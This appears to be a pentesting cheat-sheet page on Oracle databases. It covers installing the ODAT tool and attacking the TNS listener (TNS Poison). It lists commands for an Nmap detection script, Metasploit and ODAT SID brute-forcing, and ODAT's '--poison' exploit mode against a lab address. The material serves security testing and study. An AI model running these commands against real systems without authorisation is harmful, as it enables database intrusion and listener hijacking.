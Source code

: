 * [https://github.com/quentinhardy/odat#installation-optional-for-development-version](https://github.com/quentinhardy/odat#installation-optional-for-development-version)

```
$ git clone https://github.com/quentinhardy/odat ~/tools/odat && cd ~/tools/odat
$ git submodule init && git submodule update
$ sudo apt install libaio1 python3-dev alien python3-pip
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64.rpm
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-devel-19.6.0.0.0-1.x86_64.rpm
$ sudo alien --to-deb *.rpm
$ sudo dpkg -i *.deb
$ vi /etc/profile
...
export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
...
$ pip3 install cx_Oracle
$ python3 odat.py -h
```



### TNS Poison

* [http://www.joxeankoret.com/download/tnspoison.pdf](http://www.joxeankoret.com/download/tnspoison.pdf)
* [https://www.youtube.com/watch?v=0IKltOBXiII](https://www.youtube.com/watch?v=0IKltOBXiII)

Check with Nmap:

```
$ sudo wget https://gist.githubusercontent.com/JukArkadiy/3d6cff222d1b87e963e7/raw/fbe6fe17a9bca6ce839544b7afb2276fff061d46/oracle-tns-poison.nse -O /usr/share/nmap/scripts/oracle-tns-poison.nse
$ sudo nmap -v -n -Pn -sV --script oracle-tns-poison.nse -oA CVE-2014-0160/nmap/tns-poison -p1521 10.10.13.37
```

Brute SID with MSF:

```
msf > use use auxiliary/scanner/oracle/sid_brute
```

Brute SID with odat:

```
$ odat sidguesser -s 10.10.13.37 -p 1521
```

Exploit with odat:

* [https://github.com/quentinhardy/odat/wiki/tnspoison](https://github.com/quentinhardy/odat/wiki/tnspoison)

```
$ odat tnspoison -s 10.10.13.37 -d <SID> --test-module
$ odat tnspoison -s 10.10.13.37 -d <SID> --poison
```
